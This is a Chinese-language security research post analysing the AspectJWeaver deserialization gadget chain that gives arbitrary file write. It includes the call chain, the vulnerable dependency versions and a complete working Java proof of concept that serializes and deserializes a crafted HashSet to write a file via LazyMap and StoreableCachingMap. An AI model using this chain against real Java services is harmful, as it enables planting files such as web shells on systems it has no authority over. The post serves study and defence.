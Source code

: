 # AspectJWeaver 任意文件写入链分析

  
  
&lt;!--more--&gt;  
## 0X00 前言  
AspectJ 是 Eclipse 基金组织的开源项目，它是 Java 语言的一个 AOP 实现，是最早、功能比较强大的 AOP 实现之一，对整套 AOP 机制都有较好的实现，很多其他语言的 AOP 实现也借鉴或者采纳了 AspectJ 中的很多设计。在 Java 领域，AspectJ 中的很多语法结构基本上已经成为 AOP 领域的标准。  
## 0x01 漏洞分析  
Chain gadget  
```  
HashSet.readObject()  
    HashMap.put()  
        HashMap.hash()  
            TiedMapEntry.hashCode()  
                TiedMapEntry.getValue()  
                    LazyMap.get()  
                        SimpleCache$StorableCachingMap.put()  
                            SimpleCache$StorableCachingMap.writeToPath()  
```  
`pom.xml`  
```xml  
   &lt;dependencies&gt;  
        &lt;dependency&gt;  
            &lt;groupId&gt;org.aspectj&lt;/groupId&gt;  
            &lt;artifactId&gt;aspectjweaver&lt;/artifactId&gt;  
            &lt;version&gt;1.9.2&lt;/version&gt;  
        &lt;/dependency&gt;  
        &lt;dependency&gt;  
            &lt;groupId&gt;commons-collections&lt;/groupId&gt;  
            &lt;artifactId&gt;commons-collections&lt;/artifactId&gt;  
            &lt;version&gt;3.2.1&lt;/version&gt;  
        &lt;/dependency&gt;  
    &lt;/dependencies&gt;  
```  
### **sink点**  
`SimpleCache$StoreableCachingMap`  
在`org.aspectj.weaver.tools.cache.SimpleCache`类中定义了一个内部类`StoreableCachingMap`，这个类继承了`HashMap`，提供了将Map中值写入文件中的功能。  
在调用`put`方法向`StoreableCachingMap`中放入值时，会调用`wrteToPath`方法将`value`中的值写入到文件中。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050038188.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050038849.png)
路径拼接`folder &#43; File.separator &#43; key`，`values`是`bytes`数组类型的数据。  
这就构成了一个文件写入的sink点，  
```java  
import java.lang.reflect.Constructor;    
import java.nio.charset.StandardCharsets;    
import java.util.HashMap;    
    
public class FileWrite {    
    public static void main(String[] args) throws Exception {    
        Class&lt;?&gt; clazz = Class.forName(&#34;org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap&#34;);    
        Constructor&lt;?&gt; constructor = clazz.getDeclaredConstructor(String.class, int.class);    
        constructor.setAccessible(true);    
        HashMap&lt;String,Object&gt; map = (HashMap) constructor.newInstance(&#34;/tmp&#34;,1000);    
        map.put(&#34;success&#34;,&#34;success&#34;.getBytes(StandardCharsets.UTF_8));    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050042381.png)
谁能触发`org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap`中的`put`方法呢？  
### LazyMap  
在CC链中`org.apache.commons.collections.map.LazyMap`类，在`transform`之后会调用封装的内部`map`的`put`方法将结果保存，这就会触发到`put`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202504050046915.png)
### POC构造  
所以我们可以用`HashSet`反序列化来触发`TiedMapEntry`的`hashCode`进一步触发`LazyMap`的`get`方法，  
```java  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.charset.StandardCharsets;  
import java.util.HashMap;  
import java.util.HashSet;  
import java.util.Map;  
  
public class Poc {  
    public static void main(String[] args) throws Exception {  
        String fileName    = &#34;success&#34;;  
        String filePath    = &#34;/tmp&#34;;  
        String fileContent = &#34;success&#34;;  
  
        // 初始化 HashMap  
        HashMap&lt;Object, Object&gt; hashMap = new HashMap&lt;&gt;();  
  
        // 实例化  StoreableCachingMap 类  
        Class&lt;?&gt;       c           = Class.forName(&#34;org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap&#34;);  
        Constructor&lt;?&gt; constructor = c.getDeclaredConstructor(String.class, int.class);  
        constructor.setAccessible(true);  
        Map map = (Map) constructor.newInstance(filePath, 10000);  
  
        // 初始化一个 Transformer，使其 transform 方法返回要写出的 byte[] 类型的文件内容  
        Transformer transformer = new ConstantTransformer(fileContent.getBytes(StandardCharsets.UTF_8));  
  
        // 使用 StoreableCachingMap 创建 LazyMap 并引入 TiedMapEntry  
        Map          lazyMap = LazyMap.decorate(map, transformer);  
        TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);  
  
        HashSet hashset = new HashSet(1);  
        hashset.add(&#34;foo&#34;);  
        //HashSet 基于 HashMap 来实现的，获取其HashSet中的HashMap  
        Field field = Class.forName(&#34;java.util.HashSet&#34;).getDeclaredField(&#34;map&#34;);  
        field.setAccessible(true);  
        HashMap hashset_map = (HashMap) field.get(hashset);  
        //反射获取了 HashMap 中的 table 属性，table其实就是hashmap的存储底层，将HashMap中的每一个元素&lt;Key,Value&gt; 封装在了 Node 对象中，将这些node对象存储在table数组中  
        Field table = Class.forName(&#34;java.util.HashMap&#34;).getDeclaredField(&#34;table&#34;);  
        table.setAccessible(true);  
        Object[] array = (Object[])table.get(hashset_map);  
        //在获取到了 table 中的 key 之后，利用反射修改其为 tiedmap  
        Object node = array[0];  
        if(node == null){  
            node = array[1];  
        }  
        Field key = node.getClass().getDeclaredField(&#34;key&#34;);  
        key.setAccessible(true);  
        key.set(node,entry);  
  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(hashset);  
  
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));  
        objectInputStream.readObject();  
  
    }  
}  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/aspectjweaver-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E9%93%BE%E5%88%86%E6%9E%90/  

